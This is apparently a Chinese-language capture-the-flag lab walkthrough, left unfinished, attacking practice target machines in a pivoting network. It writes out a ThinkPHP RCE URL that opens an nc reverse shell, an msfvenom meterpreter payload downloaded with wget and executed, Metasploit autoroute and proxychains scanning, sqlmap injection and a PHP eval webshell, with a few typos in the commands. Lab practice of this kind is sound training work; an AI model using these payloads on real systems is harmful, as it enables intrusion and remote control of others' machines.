







[toc]

## 靶机搭建

> ***网卡设置***
>
> > 需要桥接模式，且需要路由器改网段和再分配一个ip，所以直接用了nat模式
> >
> > 
>
> ***设置静态ip***
>
> > 靶机一：
> >
> > `ifconfig ens36 192.168.22.11 netmask 255.255.255.0 `
> >
> > 
> >
> > 
> >
> > 靶机二:
> >
> > 
> >
> > 靶机三:已经设置为静态ip无需设置

### target1

> 利用thinkphp的rce直接反弹shell
>
> > `/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=nc `
> >
> > `192.168.11.129 1234 -e /bin/bash`
> >
> > 攻击机:
> >
> > `nc -lvp 1234`
>
> ***交互式shell***
>
> > `python -c 'import pty;pty.spawn("/bin/bash")'`
> >
> > python -c 'import pty;pty.spawn("/bin/bash")'
>
> **第一个falg**
>
> > 
>
> ***根目录下第二个flag**
>
> > 
>
> ***rebots中第三个falg***
>
> > 
> >
> > 
>
> 

>
>
>****
>
>****
>
>***生成elf马***
>
>> `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.129 LPORT=4321 -f elf > shell1.elf`
>
>***利用python开启http服务***
>
>> `python -m SimpleHTTPServer 8080`
>
>攻击机下载shell
>
>> `wget htt://192.168.11.129:8080/shell1.elf`
>>
>> `chmod +x shell1.elf`
>>
>> `./shell1.elf`
>
>***msf开启监听***
>
>> `search handler`
>>
>> `use 29`
>>
>> ` set payload linux/x64/meterpreter/reverse_tcp `
>>
>> `set LHOST 192.168.11.129`
>>
>> `set payload 4321`
>>
>> `run`
>>
>> 得到meterpreter

### target2

>
>
>***添加路由***
>
>> ***当前网段***
>>
>> `run get_local_subnets`
>>
>> 
>>
>> `run autoroute -s 192.168.22.0/24`
>>
>> 
>
>***扩大攻击面端口扫描***
>
>> `search portscan`
>>
>> `use 5`
>>
>> 
>>
>> 设置代理
>>
>> > 
>> >
>> > 
>> >
>> > 
>> >
>> > `set SRVPORT 2222`
>> >
>> > `vim /etc/proxychains.conf`
>> >
>> > `proxychains nmap -Pn -sT 192.168.22.22`
>
>访问80端口
>
>>
>>
>>
>>
>>ps:
>>
>>> 添加路由后可以不设置代理也可访问
>
>****
>
>***发现注入点***
>
>> 利用sqlmap直接扫:http://192.168.22.22/index.php?r=vul&keyword=1d
>>
>> 后台登入:admin 123qwe
>
>***flag***
>
>
>
>***后台写入一句话***
>
>> `<? php @eval($_POST[pass]);?>`

待续...